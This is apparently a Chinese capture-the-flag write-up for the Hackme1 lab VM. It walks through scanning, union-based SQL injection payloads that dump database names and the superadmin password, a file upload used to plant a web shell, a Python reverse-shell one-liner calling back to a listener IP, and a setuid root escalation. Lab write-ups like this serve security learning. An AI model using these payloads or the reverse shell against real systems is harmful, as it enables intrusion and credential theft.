 # Hackme1

## 初步信息收集



### 扫ip

```
arp-scan -l#懒得nmap这个省事
```

### 端口扫描

发现存在两个端口分别是ssh与web服务

![image-20221215160812447](./index/image-20221215160812447.png)



## web目录扫描

发现是一些常规功能

![image-20221215161001851](./index/image-20221215161001851.png)

同时发现由于配置原因导致可直接看目录下文件，暂时没用放一边

![image-20221215161157688](./index/image-20221215161157688.png)

## 登录后SQL注入获取admin

发现存在注入

![image-20221215161349364](./index/image-20221215161349364.png)

查询存在哪些数据库

```sql
search=0' union select 1,(select group_concat(schema_name) from information_schema.schemata),3#
得到如下，最后一个比较可疑
information_schema,mysql,performance_schema,sys,webapphacking
```

查询表名

```sql
search=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='webapphacking'),3#
```

查询users列名

```sql
search=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3#
```

发现superadmin

```sql
search=0' union select 1,(select group_concat(user) from users),3%23
```

查询密码

```sql
search=0' union select 1,(select group_concat(pasword) from users where user='superadmin'),3%23
```

获取明文密码`Uncrackable`



![image-20221215162551539](./index/image-20221215162551539.png)

## admin后管文件上传漏洞



![image-20221215162649094](./index/image-20221215162649094.png)

存在任意文件上传，上号Antsword

![image-20221215162855649](./index/image-20221215162855649.png)



## 反弹shell

为了方便搞个ttyshell

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.20.10.12",1236));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```





## 提权

在用户目录legacy下发现touchmenot文件

![image-20221215164618101](./index/image-20221215164618101.png)

执行即可获得root权限，有点呆只觉得

![image-20221215164701478](./index/image-20221215164701478.png)
